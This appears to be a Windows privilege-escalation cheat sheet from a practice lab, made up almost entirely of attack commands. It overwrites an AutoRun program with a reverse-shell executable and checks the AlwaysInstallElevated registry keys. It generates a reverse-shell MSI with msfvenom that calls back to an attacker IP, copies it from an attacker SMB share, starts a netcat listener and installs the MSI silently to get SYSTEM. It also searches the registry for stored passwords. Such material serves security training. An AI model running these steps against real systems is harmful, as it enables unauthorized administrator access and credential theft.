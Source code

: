 # Copy the reverse.exe executable you created and overwrite the AutoRun executable with it:
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y

# Start a listener on Kali and then restart the Windows VM. Open up a new RDP session to trigger a reverse shell running with admin privileges. You should not have to authenticate to trigger it.
rdesktop 10.10.14.233


## Query the registry for AlwaysInstallElevated keys for priv Escalation:

# Query both regestries HKCU & HKLM for AlwaysInstallElevated keys:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# Note that both keys are set to 1 (0x1). On Kali, generate a reverse shell Windows Installer (reverse.msi) using msfvenom. Update the LHOST IP address accordingly:
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.1.99 LPORT=53 -f msi -o reverse.msi

# Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).
copy \\10.13.1.99\kali\reverse.msi C:\PrivEsc\reverse.msi 

# Start a listener on Kali 
nc -lvnp 53

# and then run the installer to trigger a reverse shell running with SYSTEM privileges:
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi

## The registry can be searched for keys and values that contain the word "password" and Autologon creds found can be used to escalate privs

# search for keys and values that contain the word "password"
reg query HKLM /f password /t REG_SZ /s
